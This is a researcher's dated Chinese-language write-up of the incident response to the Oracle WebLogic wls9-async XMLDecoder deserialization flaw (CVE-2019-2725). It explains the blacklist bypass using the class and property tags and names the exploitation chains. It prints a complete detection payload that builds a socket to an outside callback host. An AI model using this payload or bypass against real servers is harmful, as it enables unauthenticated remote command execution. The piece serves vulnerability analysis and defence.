417
2019年4月17日，CNVD 发布《关于Oracle WebLogic wls9-async组件存在反序列化远程命令执行漏洞的安全公告》，公告指出部分版本WebLogic中默认包含的wls9_async_response包，为WebLogic Server提供异步通讯服务。由于该WAR包在反序列化处理输入信息时存在缺陷，攻击者可以发送精心构造的恶意 HTTP 请求，获得目标服务器的权限，在未授权的情况下远程执行命令。
418
2019年4月18日，开始应急。因为这个漏洞当时属于0day，也没有补丁可以参考，只能参考公告内容一步一步来看了。首先看到公告里提到的wls9_async_response.war包，看下web.xml里的url。

看到/AsyncResponseService，尝试访问一下，404。之后看到weblogic.xml和weblogic-webservices.xml

访问下_async/AsyncResponseService

可以正常访问，再结合公告中的漏洞处置建议，禁止 /_async/* 路径的URL访问，可以大概率猜测，漏洞入口在这里。
在weblogic-webservices.xml中有一个类，weblogic.wsee.async.AsyncResponseBean，跟进去这个类，发现在wseeclient.jar里面

而后我在这个类里面的方法下断点，然后构造一个普通的SOAP消息，发送。

断点没有debug到。最后我把wsee/async所有类的所有方法都下了断点，重新发送消息，成功在AsyncResponseHandler类中的handleRequest拦截到了。

继续流程，String var2 = (String)var1.getProperty("weblogic.wsee.addressing.RelatesTo");这个步骤一直取不到值，导致流程结束。为了解决这个问题，翻了不少资料，最后找到一个类似的例子，可以使用<ads:RelatesTo>test</ads:RelatesTo>为weblogic.wsee.addressing.RelatesTo赋值。
1 | xml version="1.0" encoding="UTF-8" |

之后流程就能够继续下去了，我一直以为漏洞的关键点在这里，因为这个wsee.async下面的几个类中有readObject方法，我一直尝试着通过AsyncResponseHandler跳到readObject方法，而后就卡在这里，后面的流程就不写了，对这个漏洞来说是错的，上面写的这些猜测和流程都是正确的。
419
2019年4月19日，和我一起应急的师傅给我发了一张截图。

看到这截图里面的RelatesTo，我还以为之前的推测没有错，只是没有没有构造好。
全局搜索UnitOfWorkChangeSet这个类，之后在这个类中下断点。
根据截图，构造一个类似的，然后发送

在这个类中debug到了。

看到了日思夜想的readObject，有了反序列的点，自然要找利用链了，目前 WebLogic 下面 commoncollections 相关的利用链已经是无法使用了，WebLoigc 依赖的common-collections版本已经升级了，先找个Jdk7u21测试一下，将生成的 payload 转换成 byte，发送。

可以看到，成功地执行了命令。但是这个利用链限制太大了，基本没啥用。我想起去年应急过的一个WebLogic 反序列漏洞，CVE-2018-3191，既然jdk7u21都不受黑名单限制，想来CVE-2018-3191也是一样可以利用的。

猜测没有错误，CVE-2018-3191也是能够利用的，这个漏洞也终于有点”危害”了。和 pyn3rd 师傅讨论一下有没有其他利用链，仔细翻下黑名单，除了CVE-2018-3191，就只有新的jython利用链(CVE-2019-2645)了，由 Matthias Kaiser大佬提交的，但是目前这个还有没有公开，所以这个利用链也没法使用。
有了正确答案，就可以看下之前的猜测哪里出了问题。
回到AsyncResponseHandler类中的handleRequest，handleRequest的上一步，HandlerIterator类中的handleRequest方法
1 | public boolean handleRequest(MessageContext var1, int var2) { |
会遍历this.handlers，然后调用每个handler的handleRequest去处理用户传入的SOAP Message。

可以看到，AsyncResponseHandler仅仅只是21个handler之中的一个，而weblogic.wsee.addressing.RelatesTo的赋值就是在ServerAddressingHandler中完成的，有兴趣的可以去跟一下。这里面有一个非常重要的handler–WorkAreaServerHandler，看名字可能觉得眼熟，看到里面的handleRequest方法可能就不淡定了。

之后的流程就和CVE-2017-10271是一样的了，关于这个漏洞的分析可以参考廖师傅的文章。

跟到这里就可以看出来了，这个url只是CVE-2017-10271漏洞的另外一个入口而已。这也是后期导致假poc泛滥的一个原因。整个流程大概如下：

那么问题来了，这个poc是如何绕过CVE-2017-10271的黑名单的呢？
首先来看一下CVE-2017-10271的补丁，会将传入的数据先调用validate校验，通过之后才交给XMLDecoder。
1 | public WorkContextXmlInputAdapter(InputStream var1) { |
可以看到，object，new，method这些标签都被拦截了，遇到直接抛出错误。void标签后面只能跟index，array标签后面可以跟class属性，但是类型只能是byte类型的。其中，过滤object标签是CVE-2017-3506的补丁，剩下的过滤是针对CVE-2017-10271的补丁。
如果仔细看了黑名单的，就不难发现，外面流传的很多poc都是假的，就是新url入口+老的payload，这样的组合是没有办法绕过这个黑名单的。
绕过这个黑名单的关键是class标签，可以从官方的文档来了解一下这个标签。

class标签可以表示一个类的实例，也就是说可以使用class标签来创建任意类的实例。而class标签又不在WebLogic 的黑名单之内，这才是这个漏洞最根本的原因。4月26日，Oracle 发布这个漏洞的补丁，过滤了class标签也证实了这点。

既然漏洞的原因是绕过了CVE-2017-10271的黑名单，那么wls-wsat.war也是应该受影响的。
测试一下，没有问题。

这说明，CNVD的公告写的影响组件不全，漏洞处置建议也写的不全面，要通过访问策略控制禁止 /_async/ 及 /wls-wsat/ 路径的URL访问才行，之后我们也同步给了CNVD，CNVD发了第二次通告。
421
2019年4月21日，准备构造出这个漏洞的检测PoC，能够使用class标签来创建类的实例，我首先考虑的是构造java.net.Socket，这也引出了一个JDK版本的坑。我测试的是jdk6，参考之前的poc，可以这么构造
1 | <java> |
ceye成功接收到请求，也说明Socket实例创建成功了。

我把上面的检测poc在 jdk 7上测试，竟然失败了，一直爆找不到java.net.Socket这个类错误，让我一度以为这个漏洞只能在 jdk 6 下面触发，后来仔细对比，发现是换行符的问题，也就是这样写才对。
1 | <java><class><string>java.net.Socket</string><void><string>aaaaabbbbbbbbbbb.wfanwb.ceye.io</string><int>80</int></void></class></java> |
不带换行符的在6和7下面都能生成实例。其实这个问题在最早测试 CVE-2018-3191 payload的时候就已经发生过，pyn3rd师傅问我xml payload是怎么生成的，我说用的拼接，直接System.out.println输出的，都带了换行符，我因为当时跑weblogic的jdk是jdk6，所以没有问题，但是 pyn3rd 师傅的环境是 jdk7 的，没测试成功，只觉得是poc写法不同造成的问题，后来师傅自己解决了，这里也没沟通，埋下了一个大坑，导致我后面踩进去了。
422
2019年4月22日，pyn3rd 师傅测试 WebLogic 12.1.3没成功，发现是12的版本没有oracle.toplink.internal.sessions.UnitOfWorkChangeSet这个类，所以没办法利用。尝试着构造新的exp，目前的情况是，能够创建类的实例，但是调用不了方法。自然想起com.sun.rowset.JdbcRowSetImpl这个类。
1 | <java version="1.8.0_131" class="java.beans.XMLDecoder"> |
这个是CVE-2017-10271的一种触发方法。之前的黑名单提过，void标签后面只能跟index，所以上面这个payload肯定会被黑名单拦截。尝试使用class标签重写上面的payload。
构造的过程中，在跟底层代码的时候，发现 jdk 6和 jdk 7处理标签的方式不同。
jdk 6使用的是com.sun.beans.ObjectHandler
/20.png)
能用的有string，class，null，void，array，java，object和一些基本类型标签(如int)。
jdk7 使用的是com.sun.beans.decoder.DocumentHandler
/21.png)
可以看到，和jdk6差异不小，例如，jdk 6不支持new，property等标签。
我在用jdk 6 的标签构造的时候，一直没构造成功，直到我看到jdk 7 的源码里面的property，这不就是我想要的么，而且这个标签还不在 WebLogic 的黑名单内。所以重写上面的payload如下

可以看到，没有触发黑名单，成功的执行了命令，而且没有依赖 WebLogic 内部的包，10.3.6和12.1.3都可以通用。遗憾的是，这个payload的打不了 jdk 6的，因为 jdk 6 不支持 property标签。期望有大佬能写出6也能用的。
423
2019年4月23日，在CNVD发出通告，各大安全公司发出漏洞预警之后，之前提过的新url+老payload的这种模式的poc和exp纷纷出炉。不仅是国内，国外也很热闹，很多人表示测试成功，但是都是在无补丁的情况下测试的。Oracle 官网下载的 WebLogic 都是没有安装补丁的，Oracle的补丁是单独收费的，如果安装了 CVE-2017-10271 的补丁，这些poc和exp都是没有办法触发的，绕过不了黑名单。

426
2019年4月26日，Oracle 官方发布紧急补丁，并为该漏洞分配编号CVE-2019-2725。
427
2019年4月27日，pyn3rd 师傅说12.1.3版本的exp也有人弄出来了，用的是org.slf4j.ext.EventData
1 | public EventData(String xml) { |
看下这个类的构造方法，直接将传入的xml交给XMLdecoder处理，太粗暴了…
相当于经过了两次XMLdecode，所以外层用<class>绕过，内层直接标记为纯文本，绕过第一次过滤，第二次 XMLdecode不经过WebLogic 黑名单，直接被JDK解析反序列化执行。

这种exp也是最完美的，没有jdk版本限制，不需要外连，可惜的是只能打12.1.3版本。
430
2019年4月30日，在其他大佬手中看到了这个漏洞的其他利用方式，没有 weblogic和 jdk的版本限制，比上面的几种利用方式都更完善。这种利用方式我之前也看到过，就是Tenable 发的演示视频，当时没想明白，看了大佬的利用方式之后，才明白自己忽略了什么。构造方式可以参考CVE-2017-17485，我之前构造exp的时候也没有往这方面想，这或许就是黑哥说的积累不够吧。

总结
- 针对这次漏洞，Oracle 也是打破了常规更新，在漏洞预警后不久就发布了补丁，仍然是使用黑名单的方式修复。(吐槽一下，这么修复，这个功能还能用么？)
- 此次的漏洞事件中，也看到了安全圈的乱象，漏洞都没有经过完全的验证，就直接错误的分析文章和假poc，误导大众。
- 在这个漏洞应急的过程中，从无到有，从缺到圆，踩了很多坑，也学习到了很多姿势，也看到了自己和大佬的差距。最后感谢漏洞应急过程中几位师傅的交流和指点。